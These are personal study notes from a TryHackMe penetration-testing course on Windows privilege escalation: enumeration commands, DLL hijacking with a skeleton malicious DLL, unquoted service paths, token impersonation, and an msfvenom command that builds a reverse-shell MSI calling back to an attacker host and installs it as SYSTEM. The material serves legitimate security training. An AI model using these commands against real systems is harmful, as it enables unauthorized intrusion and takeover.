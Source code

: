 # TryHackMe: Jr. Penetration Tester

author:: Nathan Acks  
date:: 2022-04-21

## Windows PrivEsc

### Introduction

Common Windows user levels:

* Local Admin
* Local User
* Guest User
* Domain User
* Domain Admin

Note that non-admin domain users may still be local admins.

Note that most Windows antivirus products will not allow enumeration scripts to be run.

Here's a useful checklist:

* [Windows - Privilege Escalation (PayloadsAllTheThings)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Information Gathering

* `whoami /priv` - current user + privileges
* `net user` - list all (local) users
* `net user $USERNAME` - get details for user `$USERNAME`
* `net localgroup` - list all (local) groups
* `net localgroup $GROUP` -- list user in group `$GROUP`
* `query session` - list other users who are currently logged in
* `systeminfo` - return system info
* `hostname` - return system hostname
* `wmic qfe get Caption,Description,HotFixID,InstalledOn` - list installed updates (only Windows 10 21H1 and older)
* `schtasks` - list scheduled tasks
* `driverquery` - list installed drivers
* `sc` - query (and manipulate) services (does not work in PowerShell!)

Note that the `findstr` command is the Windows equivalent of `grep` (and sometimes also `find`). Also remember that you can use pipe in Windows!

Note that Windows provides the `netstat` command, and it recognizes all of the switches we'd hope it does. Note, however, that `-o` displays the PID of the process using the connection on Windows.

Microsoft Defender uses the service name `windefend`.

* [Using "netstat"](../notes/netstat.md)

### Tools of the Trade

* [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* [Metasploit](../notes/metasploit.md)

Notes:

* WinPEAS is detected and quarantined by Microsoft Defender by default.
* PowerUp may require an unrestricted PowerShell session (`powershell -nop -exec bypass`), which can raise alerts.
* Windows Exploit Suggester analyzes the output of `systeminfo`, and can be run on the attacker's machine.
* The `multi/recon/local_exploit_suggester` module works through Meterpreter to analyze a Windows system for potential vulnerabilities.

### Vulnerable Software

* `wmic product` - list all installed software (but misses 32-bit applications installed on a 64-bit OS)
* `wimc service list brief` - another way of listing services

### DLL Hijacking

Basically, this is the Windows equivalent of exploiting `LD_PRELOAD` or `LD_LIBRARY_PATH`.

Windows DLL search order if `SafeDllSearchMode` is enabled:

* The application directory
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The current directory (!)
* The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

* The application directory
* The current directory (!)
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The system `PATH` (!)

It seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run). So, local testing!

A skeleton DLL:

```c
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /C whoami > C:\Temp\dll.txt");
		ExitProcess(0);
	}
	return TRUE;
}
```

Compile with mingw (this *can* be done on Linux!):

```powershell
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

Note that Windows *also* comes with `wget`!

```powershell
# Change user foo's password to "bar" (requires admin/SYSTEM
# authority):
#
net user foo bar
#
# Note that this does *NOT* bypass any password complexity
# requirements!
```

* [Exploiting LD_PRELOAD](../notes/exploiting-ld-preload.md)
* [Exploiting LD_LIBRARY_PATH](../notes/exploiting-ld-library-path.md)

### Unquoted Service Path

Formally, when Windows encounters an unquoted service path it tries *all* possible paths, from shortest to longest. Thus `C:\Program Files\service path\service.exe` will cause Windows to look for the following executables, in order:

* `C:\Program.exe`
* `C:\Program Files\service.exe`
* `C:\Program Files\service path\service.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

Print out all services:

```powershell
wmic service get name,displayname,pathname,startmode
```

You can inspect the service paths in this output to see if any have spaces *and* are unquoted.

When checking the permissions of a folder, note that the Windows File Explorer isn't good about displaying permissions for users who have *multiple* applied ACLs. Use `icacls` or `Get-Acl $PATH | Format-List`, and be sure to keep your eyes peeled for duplicate user entries (*all* of which will be applied!).

Find a file in Windows:

```powershell
dir $FILE_NAME /S
```

* [How to find a file or folder in MS-DOS or Windows command line](https://www.computerhope.com/issues/ch000309.htm)

### Token Impersonation

Prior to Windows 10 1809 / Server 2019, services could be forced to authenticate to a local port controlled by a low-privilege attacker, which would then allow the attacker to proxy and capture the NTLM handshake and thus (typically) a SYSTEM token. (This vulnerability *technically* still exists, its just that unprivileged accounts can no longer use this token; check to see if the output of `whoami /priv` contains the `SeImpersonatePrivilege` privilege to see if you've gotten lucky.)

Exploits in this family are typically named "X Potato" after the first exploit, "Hot Potato".

### Quick Wins

(1) Look for defunct (but still running) scheduled tasks with running as a more highly privileged account that point to a path you can control.

(2) If `AlwaysInstallElevated`  is set to 1 under both of the following keys, then MSI installers will run as SYSTEM.

```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Generate a malicious MSI file with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
		-f msi -o $INSTALLER.msi
```

Then install on the target to gain SYSTEM:

```powershell
msiexec /quiet /qn /i $INSTALLER.msi
```

(3) Check for saved passwords of othe users with `cmdkey /list`. If any exist, then they can be used in `runas` with the `/savecred` flag.

(4) Sometimes registry keys contain passwords! Apparently, you can query/search across registry keys using `reg query ...`.

(5) Windows uses a file called `unattend.xml` to store setup auto-configuration information. Check if these have been left lying around.
